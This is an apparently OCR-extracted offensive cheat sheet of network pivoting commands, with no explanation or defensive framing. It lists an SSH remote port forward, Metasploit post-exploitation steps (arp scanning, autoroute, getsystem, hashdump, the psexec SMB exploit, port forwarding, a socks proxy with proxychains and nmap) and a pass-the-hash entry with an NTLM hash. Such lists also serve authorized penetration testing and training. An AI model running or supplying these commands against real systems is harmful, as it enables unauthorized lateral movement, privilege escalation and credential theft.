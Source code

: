 [+] SSH Tunnelling
Remote forward port 222
ssh -R 127.0.0.1:4444:10.1.1.251:222 -p 443 root@192.168.10.118

__Metasploit__
   
[+] Metasploit Pivot

Compromise 1st machine

# meterpreter> run arp_scanner -r 10.10.10.0/24
route add 10.10.10.10 255.255.255.248 <session>
use auxiliary/scanner/portscan/tcp
use bind shell

or run autoroute:

# meterpreter > ipconfig
# meterpreter > run autoroute -s 10.1.13.0/24
# meterpreter > getsystem
# meterpreter > run hashdump
# use auxiliary/scanner/portscan/tcp
# msf auxiliary(tcp) > use exploit/windows/smb/psexec 

or port forwarding:
# meterpreter > run autoroute -s 10.1.13.0/24
# use auxiliary/scanner/portscan/tcp
# meterpreter > portfwd add -l <listening port> -p <remote port> -r <remote/internal host>

or socks proxy:
route add 10.10.10.10 255.255.255.248 <session>
use auxiliary/server/socks4a
Add proxy to /etc/proxychains.conf
proxychains nmap -sT -T4 -Pn 10.10.10.50
setg socks4:127.0.0.1:1080

 [+] Pass the hash

If NTML only:
00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
